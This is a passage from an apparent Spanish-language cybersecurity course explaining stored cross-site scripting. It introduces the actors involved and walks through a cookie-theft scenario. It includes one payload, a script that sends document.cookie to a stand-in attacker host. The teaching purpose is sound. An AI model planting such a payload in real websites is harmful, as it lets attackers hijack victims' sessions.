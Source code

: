 Antes de describir en detalle cómo funciona un ataque XSS, debemos definir los actores involucrados en un ataque XSS. En general nvolucra a tres actores: **el sitio web** , **la víctima** y **el atacante** .

- **El sitio web** ofrece páginas HTML a los usuarios que las solicitan. En nuestros ejemplos, está ubicado en [http://website/](http://website/).
- **La base de datos del sitio web** es una base de datos que almacena algunas de las entradas del usuario incluidas en las páginas del sitio web.
- **La víctima** es un usuario normal del sitio web que solicita páginas del mismo a través de su navegador.
- **El atacante** es un usuario malintencionado del sitio web que pretende lanzar un ataque contra la víctima explotando una vulnerabilidad XSS en el sitio web.
- **El servidor del atacante** es un servidor web controlado por el atacante con el único propósito de robar información confidencial de la víctima. En nuestros ejemplos, está ubicado en [http://attacker/](http://attacker/).

**Un ejemplo de escenario de ataque**

En este ejemplo, asumiremos que el objetivo final del atacante es robar las cookies de la víctima explotando una vulnerabilidad XSS en el sitio web. Esto se puede hacer haciendo que el navegador de la víctima analice el siguiente código HTML:

```html
<script>

window.location='http://attacker/?cookie='+document.cookie

</script>
```

Este script navega por el navegador del usuario a una URL diferente, lo que activa una solicitud HTTP al servidor del atacante. La URL incluye las cookies de la víctima como parámetro de consulta, que el atacante puede extraer de la solicitud cuando llega a su servidor. Una vez que el atacante ha adquirido las cookies, puede utilizarlas para hacerse pasar por la víctima y lanzar más ataques.

De ahora en adelante, el código HTML anterior se denominará **cadena maliciosa** o **script malicioso.** Es importante tener en cuenta que la cadena en sí sólo es maliciosa si finalmente se analiza como HTML en el navegador de la víctima, lo que sólo puede ocurrir como resultado de una vulnerabilidad XSS en el sitio web.

## Cómo funciona el ataque

El siguiente diagrama ilustra cómo un atacante puede realizar este ataque de ejemplo:

![XSS2](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/xss2.png?raw=true)

1. El atacante utiliza uno de los formularios del sitio web para insertar una cadena maliciosa en la base de datos del sitio web.
2. La víctima solicita una página del sitio web.
3. El sitio web incluye la cadena maliciosa de la base de datos en la respuesta y la envía a la víctima.
4. El navegador de la víctima ejecuta el script malicioso dentro de la respuesta y envía las cookies de la víctima al servidor del atacante.

## Tipos de XSS
